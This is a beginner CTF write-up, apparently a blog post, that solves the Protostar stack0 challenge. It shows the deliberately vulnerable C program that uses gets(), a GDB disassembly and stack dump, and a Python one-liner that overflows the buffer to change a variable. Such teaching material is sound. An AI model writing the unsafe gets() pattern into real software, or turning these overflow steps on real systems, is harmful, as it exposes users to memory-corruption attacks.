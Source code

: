 ```yaml
---
title: Protostar Writeup - stack0
updated: 2018-07-25 13:25
---
```


## Protostar - stack0

This post is a writeup for the Protostack - stack0 challenge. Before continuing further, I strongly advice that you first try them out yourself.
Here's the [link](https://exploit-exercises.com/protostar/stack0/). The first challenge is simple for a person doing CTF's for a while. This challenge is actually meant for beginners inorder to introduce them to CTF's.
I assume that if you got stuck here, you atleast have a VM running the Protostart iso, if not that's a good first challenge if you have never used VM's.

### stack0

If you read the description of the challenge you will see that all we have to do is modify a variable. Here's the attached code which is also present on the site.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];
    modified = 0;
    gets(buffer);

    if(modified != 0) {
        printf("you have changed the 'modified' variable\n");
    } else {
        printf("Try again?\n");
    }
}
```

So let's analyze this code. We have some a variable called modified which we need to modify(ironic), note that modified is declared as volatile, this tells the compiler to not apply any optimizations to it. Then we have a buffer of 64 bytes.
Then we have modified set to 0 and we take some input. Now it's easy to see that there's no way to modify the modified variable(atleast not directly).
Now what options do we have? The only attack surface I could think of here is the `gets()` function. Looking at the man pages of it I came across something interesting in the bugs section.

> Never use gets()...impossible to tell...how many characters it will read...has been used to break computer security.

hmmm...interesting. Exploiting this has something to do with how memory is layed out. To keep things simple, when we declare a variable, it is reserved or stored on the stack. So if you understood what that means, buffer as well as modified should be on the stack.
And from the man pages we know that `gets()` has no limit on reading. So what happens if we read beyond 64 bytes? Let's try writing beyond 64 bytes. Let's fire up the GDB and take a look at what we have.

```shell
$ gdb stack0
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x080483f4 <main+0>:	push   ebp
0x080483f5 <main+1>:	mov    ebp,esp
0x080483f7 <main+3>:	and    esp,0xfffffff0
0x080483fa <main+6>:	sub    esp,0x60
0x080483fd <main+9>:	mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:	lea    eax,[esp+0x1c]
0x08048409 <main+21>:	mov    DWORD PTR [esp],eax
0x0804840c <main+24>:	call   0x804830c <gets@plt>
0x08048411 <main+29>:	mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:	test   eax,eax
0x08048417 <main+35>:	je     0x8048427 <main+51>
0x08048419 <main+37>:	mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:	call   0x804832c <puts@plt>
0x08048425 <main+49>:	jmp    0x8048433 <main+63>
0x08048427 <main+51>:	mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:	call   0x804832c <puts@plt>
0x08048433 <main+63>:	leave
0x08048434 <main+64>:	ret
End of assembler dump.
```

Nothing interesting here. We know that `[esp+0x5c]` is the modified variable just by looking at the assembly, since a 0 is moved into that location.
Let's set a break point just after the `gets()` call, run the program and take a look at what happens.

```shell
(gdb) break *0x08048411
Breakpoint 1 at 0x8048411: file stack0/stack0.c, line 13.
(gdb) r
Starting program: /opt/protostar/bin/stack0
AAAAAAAAAAAAAA

Breakpoint 1, main (argc=1, argv=0xbffff854) at stack0/stack0.c:13
...
(gdb) x/24wx $esp
0xbffff740:	0xbffff75c	0x00000001	0xb7fff8f8	0xb7f0186e
0xbffff750:	0xb7fd7ff4	0xb7ec6165	0xbffff768	0x41414141
0xbffff760:	0x41414141	0x41414141	0xbf004141	0x080482e8
0xbffff770:	0xb7ff1040	0x08049620	0xbffff7a8	0x08048469
0xbffff780:	0xb7fd8304	0xb7fd7ff4	0x08048450	0xbffff7a8
0xbffff790:	0xb7ec6365	0xb7ff1040	0x0804845b	0x00000000
```

Let me explain what I did. I set a break point just after the `gets()` call because I want to get an idea of where on the stack the data is stored. 'A' in hex is `0x41`.
We print the first 24 (w)ords in he(x) format. You can see where our 'A's got stored. And if you take a closer look, towards the end you find the value of modified which is 0.
So what we need to do is overflow the input into the modified variable and we're done. Just by observation of the stack, we see that we require a minimum of 4 * 4 * 4 + 1 bytes of data, which is co-incidently one more byte than the buffer size. More would work too, but this is the minimum.
Let's write exploit this with a little help from python and pipes.

```shell
$ python -c "print 'A' * 64 + 'B'" | ./stack0
you have changed the 'modified' variable
```

And there we have it, we have successfully modified the value of a variable, using a buffer overflow. Simple yet fundamental to understanding how not to write code.
I'll be posting more solutions in my free time. If you got this on your first try, way to go! If not, then remember 'Every expert was once a beginner'. Another little thing I would like to stress upon, is that you should keep questioning why it works the way it does. If you aren't, you aren't learning anything at all.

### Sites
[Protostar](https://exploit-exercises.com/protostar/)
[Phrack Magzine](http://phrack.org/issues/49/14.html)
[LiveOverflow](https://liveoverflow.com/)
